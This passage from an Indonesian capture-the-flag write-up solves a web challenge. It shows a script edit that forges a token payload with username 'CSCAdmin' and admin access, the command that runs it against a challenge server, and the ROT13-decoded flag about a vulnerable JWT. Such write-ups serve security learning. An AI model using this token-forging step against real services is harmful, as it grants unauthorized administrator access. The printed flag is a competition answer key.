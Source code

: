 Yang dimana saya hanya mengubah dan menambahkan
```py
if cookie.name == "dG9rZW4":
payload["username"] = "CSCAdmin"
payload["access"] = "admin"
```
<br>

Lalu tinggal jalankan saja filenya
```sh
python give_me_the_flag.py -l http://103.185.44.232:29342/index.php -u guest12345 -p password123
```
<br>

Kemudian diperoleh text berupa
```html
<body>
    <h1>Access granted for Administrator -->13<--</h1>
    <p class='flag'>Here's the flag: CSC{gu1f_Wjg_1f_3kgERz3yl_ihya3eNoy3_e1tug?}</p>
</body>
```
<br>

Sepertinya flagnya masih terencrypt, maka saya coba untuk mendecrypt menggunakan [ROT decryptor](https://theblob.org/rot.cgi)
<br>
ROT-13: th1s_Jwt_1s_3xtREm3ly_vuln3rAbl3_r1ght?
<br><br>
FLAG : **CSC{th1s_Jwt_1s_3xtREm3ly_vuln3rAbl3_r1ght?}**
<br><br><br>

## Cryptography
- ### Xorror
#### Soal :